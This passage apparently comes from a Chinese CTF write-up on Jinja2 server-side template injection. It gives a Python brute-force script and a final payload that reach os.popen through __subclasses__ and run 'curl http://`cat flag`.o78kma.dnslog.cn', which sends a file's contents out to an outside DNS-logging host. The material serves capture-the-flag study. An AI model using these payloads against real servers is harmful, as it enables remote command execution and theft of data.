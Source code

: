 ```bash
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/3"
        data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://`cat flag`.o78kma.dnslog.cn").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)
        #print(res.text)
        if 'correct' in res.text:
            print(i)

    except:
        pass
```

说是脚本，其实也就是在找到`os._wrap_close`类之后执行了一个 curl 语句而已，我们在知道这个类的位置后，可以直接进行攻击，构造如下 payload

```bash
{{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__["popen"]("curl http://`cat flag`.o78kma.dnslog.cn").read()}}
```

[![在这里插入图片描述](assets/1698900310-54bcd699b1f935f8ac53c5d869cd7941.png)](https://storage.tttang.com/media/attachment/2022/08/14/c9bc0e7e-cb6d-4f79-a456-fa55f738c112.png)

[![在这里插入图片描述](assets/1698900310-77a2afbfe226151e09b853fd8aa7e7dd.png)](https://storage.tttang.com/media/attachment/2022/08/14/63195210-5f10-4d2e-8ec8-7cedd8b7141c.png)
